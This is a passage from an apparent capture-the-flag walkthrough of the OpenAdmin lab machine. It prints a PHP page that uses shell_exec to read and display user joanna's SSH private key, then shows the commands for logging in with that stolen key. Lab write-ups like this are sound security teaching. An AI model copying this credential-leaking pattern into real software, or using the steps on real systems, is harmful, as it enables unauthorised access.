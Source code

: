 ![](/assets/images/openadmin6.png) 

We got in! And we got a SSH private key?

Checking the code for `main.php`(which was the the page we were redirected to),

{% highlight bash %}
jimmy@openadmin:/var/www/internal$ cat main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
{% endhighlight %}

The private key belongs to user `joanna`. Lets try `ssh`ing using it.

{% highlight bash %}
$ chmod 700 id_rsa 
$ ssh -i id_rsa joanna@openadmin.htb
Enter passphrase for key 'id_rsa': 

{% endhighlight %}
